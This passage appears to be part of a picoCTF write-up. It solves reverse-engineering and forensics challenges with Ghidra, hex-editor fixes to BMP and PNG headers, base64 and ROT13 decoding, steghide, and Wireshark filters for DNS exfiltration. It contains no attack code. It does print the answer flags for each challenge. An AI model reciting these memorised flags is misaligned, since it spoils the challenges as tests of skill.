If we rewrite the result (5246062692) following the required flag format we get 138b09064, but this is not a 32 bit number (9 bits)! Just AND it with 0xffffffff and obtain the flag: **picoCTF{38b09064}**

## Hurry up! Wait!  

We get a .exe file, so let's download it and disassemble it with Ghidra. It's stripped, so we can search the `entry` function to get the `libc_start_main` calling `FUN_00101fcc`, let's rename it as `main` and go on with the analysis.

Here we can see 3 functions calls (FUN_00101d7c, FUN_0010298a, FUN_00101d52) but if we dig into them we can conclude that the first one is an initialization function and the third "closes" a string with '\0', so we should focus on the second one, call it `print_flag`:



As we can see there are a lot of calls to other functions, but there is no point on renaming them. Just by opening and analyzing the first two, they access local data corresponding to 70 and 69 respectively: converting them into ASCII, they are 'p' and 'i'... seems like pico!  
Now we can continue in the same way (remember Alt + left_arrow to go back in disassemble) and get:
`70 69 63 6f 43 54 46 7b 64 31 35 61 35 6d 5f 66 74 77 5f 30 65 37 34 63 64 34 7d`

Converting these bytes into ASCII and get the flag: **picoCTF{d15a5m_ftw_0e74cd4}**

# Forensics
## tunn3l v1s10n  

The given file has no extension and strings or other commands seems not to lead to something useful, so let's try to find a suitable file format through `exiftool`. The result suggest this is a BMP file, and we are quite sure about it by opening it with an hex editor: the magic bytes are correct (42 4d, 'BM') so we will probably need to "fix" this file to obtain the flag.

Let's start to analyze it, and we can soon see two bad00000 patterns, indicating that these are the bytes we need to fix: 

`00000000  42 4d 8e 26 2c 00 00 00  00 00 ba d0 00 00 ba d0  |BM.&,...........|`, so according to BMP files structure we have: 
- 42 4d = _Signature_
- 8e 26 2c 00 = _File size_
- 00 00 = _Reserved 1_
- 00 00 = _Reserved 2_
- ba d0 00 00 = _File Offset to pixel array_
- ba d0 00 00 = _DIB Header Size_

I have no idea of what this means, so let's try to google it and get a better undestanding: from [here](http://www.ece.ualberta.ca/~elliott/ee552/studentAppNotes/2003_w/misc/bmp_file_format/bmp_file_format.htm) we get to know that _DIB Header Size_ turns out to be a constant equal to 40 (0x28), and _File Offset_ the distance from the beginning of the file to the actual image data, so 14 (Header size) + 40 (InfoHeader size) = 54 (0x36), both of them composed of 4 bytes so we need to apply some padding with 00 bytes.

Unfortunately at this point the image is displayed correctly but we are getting trolled, let's keep digging (we know we are on the right way).


After trying some steganography tools on that, by checking again `exiftool` tells us that the image is 1134 x 306 with a size of 2893400. This is pretty suspicious, indicating that maybe this is not the real resolution: we can easily see that by incrementing the height we can see a meaningful higher image and by setting this value as 42 03 we can see the flag.


Flag: **picoCTF{qu1t3_a_v13w_2020}**

## MacroHard WeakEdge  

We are given a Powerpoint file with macros (.pptm), this seems like a "classic" MS Office malware challenge. By opening the file with Powerpoint on Windows I could not see all macros, only a `not_flag() one`, clearly not the flag.

PPTM files use ZIP and XML to compress and organize the data into a single file, so I decided to analyze the file with `binwalk`: after loads of zip archives representing the various slides and their content, two interesting ones are displayed: `ppt/vbaProject.bin` and `ppt/slideMasters/hidden`.

The first one should contain macros, but given that somehow they are hidden I decided to first check the second one. This turns out right, because looking at the `hidden` file we can see `Z m x h Z z o g c G l j b 0 N U R n t E M W R f d V 9 r b j B 3 X 3 B w d H N f c l 9 6 M X A 1 f Q` as result.  
This looks like base64, so removing spaces and decoding it will lead to the flag: 
```bash
cat ppt/slideMasters/hidden | tr -d ' ' | base64 -d
```
Flag: **picoCTF{D1d_u_kn0w_ppts_r_z1p5}**

## Trivial Flag Transfer Protocol   

We are given a .pcap file, by opening it on Wireshark I immediately saw the TFTP protocol, and following the various treams it seems to exchange some files. Remember that ith TFTP we can not encrypt in any way, so we can easily access those files with `File > Export Objects > TFTP`, getting some interesting ones.

The first one is `instructions.txt`, saying: `GSGCQBRFAGRAPELCGBHEGENSSVPFBJRZHFGQVFTHVFRBHESYNTGENAFSRE.SVTHERBHGNJNLGBUVQRGURSYNTNAQVJVYYPURPXONPXSBEGURCYNA`. This seems a rotation cipher (yes, ROT13) actually saying: `TFTPDOESNTENCRYPTOURTRAFFICSOWEMUSTDISGUISEOURFLAGTRANSFER.FIGUREOUTAWAYTOHIDETHEFLAGANDIWILLCHECKBACKFORTHEPLAN`. Plan, huh?

This gets my attention because we have another file `plan`, and by opening it we get `VHFRQGURCEBTENZNAQUVQVGJVGU-QHRQVYVTRAPR.PURPXBHGGURCUBGBF`, again with ROT13 we get `IUSEDTHEPROGRAMANDHIDITWITH-DUEDILIGENCE.CHECKOUTTHEPHOTOS`. 

We still have one `program.deb` and 3 photos, all seems so be right.

At the time of the challenge I had no access to my Linux VM, so I just tried to "decode" the images to see if they contained some sort of steganography. It turns out that the `picture3.bmp` hides the flag, so probably the `program.deb` is a debian package of steghide. 

Using [this](https://futureboy.us/stegano/decinput.html) online tool and the password DUEDILIGENCE i managed to extract the flag: **picoCTF{h1dd3n_1n_pLa1n_51GHT_18375919}**

## Wireshark twoo twooo two twoo...   

We are again given a .pcap, containing a bunch of TCP and HTTP Kerberos conversations. By following the streams I managed to see a flag, but I soon realized it was just a random value put here to trick us. The same happes to a lot of TCP conversations so I just ignored all of them.  
Kerberos conversations are useless too, being encrypted and impossible to read right now: let's focus on the remaining ones, so DNS packets.

There are a lot of DNS requests from 198.168.32.104 to 8.8.8.8 (dns.google) each of them resolved into a strange subdomain, like: `192.168.38.104	dns.google	=>	9NzCwWxd.reddshrimpandherring.com`. This website is obviously not reachable, but the first part seems like base64 (even if decoded makes no sense).  
We can keep analyzing the packets and some of them are not directed to the Google DNS, which seems a way to follow. 

By isolating them with the filter `dns && ip.src==192.168.38.104 && ip.dst!=8.8.8.8` we significantly reduce the number of packets, so this keeps getting better.  
Again we can notice that packets can be grouped 3 by 3, so let's filter them also upon a specific content (present in only 1 of 3 packets of the group) to reduce again the total number (`dns && ip.src==192.168.38.104 && ip.dst!=8.8.8.8  && frame contains "amazon"`).

We now obtain a set of 7 packets, so let's try to decode their base64 part and see what happens. If we take the first packet we get `cGljb0NU`, `picoCT` decoded. BOOM, we got it! Now I continued manually and concatenating everything we obtain the flag: **picoCTF{dns_3xf1l_ftw_deadbeef}**

## advanced-potion-making   

We get an advanced-potion-making file with no extension, so let's run file and see the result: data. Open it with an hex editor and see that we have the PNG file structure: well, this seems to be a corrupted PNG file to fix.

What we can immediately see are the wrong magic bytes, so if we fix them with `89 50 4E 47 0D 0A 1A 0A` we should be done! Well, no. The image is still corrupted, so let's focus on other bytes that could be wrong. If we take a look at the most important chunks and compare them with a uncorrupted PNG file, we can notice that the bytes before IHDL (`IHDL = 49 48 44 52`) are not the same (which are in all "standard" PNG I opened), being `00 12 13 14`.  
Let's fix them, replacing with `00 00 00 0D` and now we can open the image and oh, it's all red.


Luckily, when dealing with forensics challenges and one-coloured images, StegSolve.jar can come in handy: open it and select a Red Mask (also a Random would work in this case) and we can **clearly** see the flag:


Flag: **picoCTF{w1z4rdry}**

## WhitePages

Flag: **picoCTF{not_all_spaces_are_created_equal_7100860b0fa779a5bd8ce29f24f586dc}**
